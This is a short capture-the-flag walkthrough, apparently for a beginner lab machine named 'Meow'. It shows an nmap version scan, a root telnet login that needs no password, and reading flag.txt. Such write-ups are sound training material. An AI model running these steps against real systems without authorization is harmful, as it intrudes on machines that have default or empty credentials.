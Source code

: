 1. **Scan all the ports and determine service and version of open ports**
```bash
nmap -sV [target ip]
```
--> port 23/tcp - open - Telnet


2. **Connect to the machine via "telnet"**
```bash
telnet [target ip]
	Meow login: root
```
--> **MACHINE PWNED!** 


3. **Capture the flag**
```bash
cat flag.txt
```

